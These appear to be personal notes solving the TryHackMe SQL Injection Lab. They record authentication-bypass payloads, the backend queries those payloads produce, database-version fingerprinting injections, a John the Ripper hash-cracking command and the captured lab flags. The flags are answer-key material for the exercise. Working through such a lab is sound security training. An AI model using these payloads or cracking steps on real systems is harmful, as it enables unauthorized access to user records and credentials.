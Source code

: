 [TryHackMe | SQL Injection Lab](https://tryhackme.com/room/sqlilab)

# SQL Injection Lab

**Understand how SQL injection attacks work and how to exploit this vulnerability.**

```
http://10.10.218.93:5000/
```

![[Pasted image 20230704220049.png]]

http://10.10.184.158:5000/sesqli1/login?next=http%3A%2F%2F10.10.184.158%3A5000%2Fsesqli1%2Fhome

```
'1 or 1=1-- -
```

![[Pasted image 20230704220611.png]]

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='1 or 1=1-- - AND password = '47f274ce60fb8335f29cbe4437fc56108d099dfa914fad4064ec1239ada24f13'
```

```
1 or 1=1-- -
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=1 or 1=1-- - AND password = 'abbabb4d0029fc954aafabe7faed5d71c7997b1d28ee676cc0495da8c6efde88'
```

```
THM{dccea429d73d4a6b4f117ac64724f460}
```

![[Pasted image 20230704223143.png]]

http://10.10.184.158:5000/sesqli1/home

http://10.10.184.158:5000/sesqli2/home

```
1' or '1'='1'-- -
```

![[Pasted image 20230704223439.png]]

```
THM{356e9de6016b9ac34e02df99a5f755ba}
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = '1' or '1'='1'-- -' AND password = 'da45f5fec53621a955c6b72dbf48c338741a295cf9146d441c1cd650e35cbe42'
```

![[Pasted image 20230704223637.png]]

```
http://10.10.184.158:5000/sesqli3/login?profileID=-1%27%20or%201=1--%20-&password=a
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='-1' or 1=1-- -' AND password='ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb'
```

```
THM{645eab5d34f81981f5705de54e8a9c36}
```

![[Pasted image 20230704224124.png]]

http://10.10.184.158:5000/sesqli4/login?next=http%3A%2F%2F10.10.184.158%3A5000%2Fsesqli4%2Fhome

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = '1' AND password = '9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08'
```
![[Pasted image 20230704224533.png]]
![[Pasted image 20230704225334.png]]

![[Pasted image 20230704225550.png]]

![[Pasted image 20230705064047.png]]

![[Pasted image 20230705064153.png]]

![[Pasted image 20230705070854.png]]

```
THM{727334fd0f0ea1b836a8d443f09dc8eb}|
```

*To identify what database is in use...*

### For MySQL and MSSQL

',nickName=@@version,email='

### For Oracle

',nickName=(SELECT banner FROM v$version),email='

### For SQLite

',nickName=sqlite_version(),email='

http://10.10.218.93:5000/sesqli5/login

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=? AND password=?
```

![[Pasted image 20230706055157.png]]

http://10.10.218.93:5000/sesqli5/home

![[Pasted image 20230706060132.png]]

http://10.10.218.93:5000/sesqli5/profile

![[Pasted image 20230706063419.png]]



https://www.onlinehashcrack.com/wh86lv20ap

```
find / -type f -name rockyou.txt 2>/dev/null
/usr/share/wordlists/rockyou.txt
```

![[Pasted image 20230704222216.png]]

```
47f274ce60fb8335f29cbe4437fc56108d099dfa914fad4064ec1239ada24f13
```
https://gchq.github.io/CyberChef/

```
john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt sqli1.txt
```

```
http://10.10.184.158:5000/downloads/
```

![[Pasted image 20230627224134.png]]

